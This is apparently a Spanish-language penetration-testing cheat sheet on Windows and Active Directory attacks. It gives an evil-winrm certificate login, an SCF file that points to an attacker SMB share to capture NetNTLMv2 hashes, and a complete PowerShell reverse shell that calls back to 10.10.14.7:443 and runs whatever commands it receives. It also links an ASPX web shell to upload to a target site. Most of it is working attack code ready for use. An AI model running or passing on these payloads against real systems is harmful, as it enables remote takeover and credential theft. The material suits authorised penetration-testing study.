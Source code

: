 Para esto necesitaremos dos archivos: una clave pública y otra privada. La privada la podemos generar, la pública la necesitamos obtener de alguna manera (en la share CertEnroll por ej):

```shell
openssl req -newkey rsa:2048 -nodes -keyout private.key -out cert.csr
```

Después de obtener el .cer nos conectamos con `evil-winrm`, en caso de que el usuario pertenezca al grupo Remote Management Users:

```shell
evil-winrm -i <IP> -u <USUARIO> -p <CONTRASEÑA> -c certnew.cer -k private.key -S
```

## Archivos SCF

Con estos archivos se carga un icono... qué pasa? Que si conseguimos poner uno en la máquina, al abrir la carpeta en la que se encuentra el icono, intentará cargar el icono de una ruta trucada que le hemos puesto, por lo que en nuestro servidor smb o en responder veremos el hash NetNTLMv2 del usuario. Aquí está el archivo scf que tan solo debes poner en alguna carpeta compartida de SMB en la que puedas escribir, si un usuario lo abre, verás su hash NetNTLMv2:

```c
[Shell]
Command=2
IconFile=\\192.168.0.106\smbFolder\pwned.ico
[Taskbar]
Command=ToggleDesktop
```

Esto intentará cargar el icono de tu equipo, por lo que viajará una autenticación de red. 

## PS Reverse Shell - Obfuscated

```powershell
$c = New-Object System.Net.Sockets.TCPClient('10.10.14.7',443);$stream = $c.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2  = $sb + 'shell ' + '=> ';$sy = ([text.encoding]::ASCII).GetBytes($sb2);$stream.Write($sy,0,$sy.Length);$stream.Flush()};$c.Close()
```

## Insomnia

Con [esta](https://raw.githubusercontent.com/jivoi/pentest/master/shell/insomnia_shell.aspx) herramienta nos podemos mandar una reverse shell. Lo único que necesitamos es subir el aspx a la web:

![[Pasted image 20230725144724.png]]

## Adaptar /etc/krb5.conf

Si la autenticación NTLM está deshabilitada necesitaremos aprovecharnos de Kerberos. Para esto necesitamos editar nuestro `/etc/krb5.conf`
